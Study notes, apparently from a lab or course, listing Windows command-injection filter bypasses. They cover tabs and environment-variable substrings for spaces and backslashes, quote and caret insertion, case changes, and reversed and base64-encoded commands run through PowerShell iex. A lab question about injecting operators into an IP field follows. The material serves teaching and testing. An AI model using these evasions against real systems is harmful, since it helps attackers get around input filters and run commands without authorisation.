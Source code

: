 ## Filtered Character Bypass

| Code                    | Description                                                  |
| ----------------------- | ------------------------------------------------------------ |
| `Get-ChildItem Env:`    | Can be used to view all environment variables - (PowerShell) |
| **Spaces**              |                                                              |
| `%09`                   | Using tabs instead of spaces                                 |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD)                        |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell)                 |
| **Other Characters**    |                                                              |
| `%HOMEPATH:~0,-17%`     | Will be replaced with `\` - (CMD)                            |
| `$env:HOMEPATH[0]`      | Will be replaced with `\` - (PowerShell)                     |

---
## Blacklisted Command Bypass

|Code|Description|
|---|---|
|**Character Insertion**||
|`'` or `"`|Total must be even|
|`^`|Windows only (CMD)|
|**Case Manipulation**||
|`WhoAmi`|Simply send the character with odd cases|
|**Reversed Commands**||
|`"whoami"[-1..-20] -join ''`|Reverse a string|
|`iex "$('imaohw'[-1..-20] -join '')"`|Execute reversed command|
|**Encoded Commands**||
|`[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`|Encode a string with base64|
|`iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`|Execute b64 encoded string|

# Questions & Answers
### Detection

1.  Try adding any of the injection operators after the ip in IP field. What did the error message say (in English)?
